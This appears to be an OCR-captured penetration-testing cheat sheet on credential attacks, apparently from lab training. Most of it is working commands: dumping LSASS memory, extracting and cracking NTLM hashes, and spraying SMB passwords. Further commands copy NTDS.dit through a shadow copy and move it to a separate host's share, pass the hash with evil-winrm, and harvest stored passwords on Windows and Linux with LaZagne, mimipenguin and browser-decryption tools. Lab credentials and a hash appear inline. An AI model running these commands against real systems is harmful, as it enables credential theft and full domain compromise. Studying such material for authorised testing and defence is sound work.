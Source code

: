         - Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file
        - C:\Users\loggedonusersdirectory\AppData\Local\Temp
        - C:\Windows\system32> tasklist /svc
        - PS C:\Windows\system32> Get-Process lsass
        - PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
    - Using Pypykatz to Extract Credentials
        - pypykatz lsa minidump /home/peter/Documents/lsass.dmp
        - sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
- Attacking Active Directory & NTDS.dit
    - ./username-anarchy -i /home/ltnbob/names.txt
    - crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
    - Capturing NTDS.dit
        - evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!’
        - *Evil-WinRM* PS C:\> net localgroup
        - *Evil-WinRM* PS C:\> net user bwilliamson
        - *Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
        - *Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
        - *Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
        - OR
        - crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
    - crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
    - evil-winrm -i 10.129.201.57 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b”
- Credential Hunting in Windows
    - C:\Users\bob\Desktop> start lazagne.exe all
    - C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
    - Passwords in Group Policy in the SYSVOL share
    - Others
        - Passwords in scripts in the SYSVOL share
        - Password in scripts on IT shares
        - Passwords in web.config files on dev machines and IT shares unattend.xml
        - Passwords in the AD user or computer description fields
        - KeePass databases --> pull hash, crack and get loads of access.
        - Found on user systems and shares
        - Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint
- Credential Hunting in Linux
    - for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
    - for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
    - for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
    - `find /home/* -type f -name "*.txt" -o ! -name "*.*"`
    - for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
    - cat /etc/crontab
    - ls -la /etc/cron.*/
    - grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1”
    - grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1”
    - for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
    - `tail -n5 /home/*/.bash*`
    - Memory and cache
        - sudo python3 [mimipenguin.py](http://mimipenguin.py/)
        - sudo bash [mimipenguin.sh](http://mimipenguin.sh/)
        - sudo python2.7 [laZagne.py](http://lazagne.py/) all
        - ls -l .mozilla/firefox/ | grep default
        - cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
        - python3.9 firefox_decrypt.py
- Passwd, shadow & opasswd